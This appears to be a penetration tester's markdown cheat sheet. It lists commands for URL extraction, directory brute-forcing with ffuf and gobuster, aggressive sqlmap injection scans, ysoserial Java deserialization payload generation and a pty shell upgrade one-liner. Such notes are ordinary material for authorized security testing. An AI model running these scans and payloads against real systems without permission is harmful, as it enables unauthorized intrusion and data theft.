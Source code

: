 # Regex

**Extract urls**

```
cat a | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u

cat a | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | tr '[:upper:]' '[:lower:]' | sort -u
```

# tr

**Upper -> lowercase**
```
cat a | tr '[:upper:]' '[:lower:]'
```


**Lower -> uppercase**
```
cat a | tr '[:lower:]' '[:upper:]'
```


# Directory listing


**Download dictionary**
```
wget https://gist.githubusercontent.com/jhaddix/b80ea67d85c13206125806f0828f4d10/raw/c81a34fe84731430741e0463eb6076129c20c4c0/content_discovery_all.txt
```


**ffuf**
```
ffuf -t 10 -u http://url.com/FUZZ -w /root/dict/content_discovery_all.txt -fc "302"
```


**Gobuster**
```
gobuster dir -r -k -u URL -w ../dict/content_discovery_all.txt --wildcard
```


# SQLMap
```
sqlmap -r url.com --level 5 --risk 3 --batch
```


```
for i in $(ls *txt); do sqlmap -r $i --level 3 --risk 3 --dbms=Oracle --ignore-redirects --batch; done
```

# Git


```
for i in $(git log --oneline | cut -d " "  -f 1); do echo; git reset $i; git checkout -- . ; ls ; done
```


# Ysoserial
```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections7 'sleep 10' | base64 -w0 -

java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections7 'sleep 10' | base64 -w0 - | base64 -d  | cut -c 9- | base64 -w0 -; echo

for i in $(cat a | awk '{ print $1 }' ); do java -jar ysoserial-0.0.6-SNAPSHOT-all.jar $i 'sleep 10' | base64 -w0 - | base64 -d  | cut -c 9- | base64 -w0 -; echo; done | tee dict2.txt
```


# Upgrade shell

```
python -c 'import pty; pty.spawn("/bin/bash")'  
```
